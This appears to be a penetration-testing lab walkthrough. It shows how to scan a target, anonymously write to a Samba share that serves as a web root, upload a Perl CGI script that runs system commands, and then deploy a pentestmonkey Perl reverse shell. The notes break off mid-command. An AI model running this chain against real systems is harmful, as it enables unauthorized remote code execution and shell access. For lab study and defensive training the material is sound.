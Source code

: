 ls
// the presence of a ".pl" extension indicates that the server is likely configured to process Perl (CGI) programs.
// grab the file and analyse the code
get index.pl


- lets check if the port 80 is open

```
nmap -sT <target ip> --max-retries 1 -n --open
```

- lets point a browser at our target

```
open <target ip>/index.pl in a browser
```

> we have confirmed that the **www** share is configured on the Samba server, is most likely being used to server the index.pl script and is likely the actual web root For the web server.

- make sure we have WRITE permission to the "www" share
- lets create a file locally and send to the smb share

```
#!/usr/bin/perl
print "Content-type: text/html\n\n";
system("id");
```

//it will execute the id Linux system command and will display your current UID and GID information when accessed with your browser.

```
	smbclient \\\\<target ip>\\www -N
	put test.pl
```

- lets browser to our test.pl file

in browser:
```
<target ip>/test.pl
```

> this will confirm For us that we can upload our own Perl scripts to the server and can execute remote operating system commands through our test script.

### reverse shell - Perl
- Now we can use perl-reverse-shell.pl from pentestmonkey
- in kali: /usr/share/webshells/perl directory
// just change the ip of the source code
// and note the port number

- Upload the script to the share

```
smbclient > put 
```
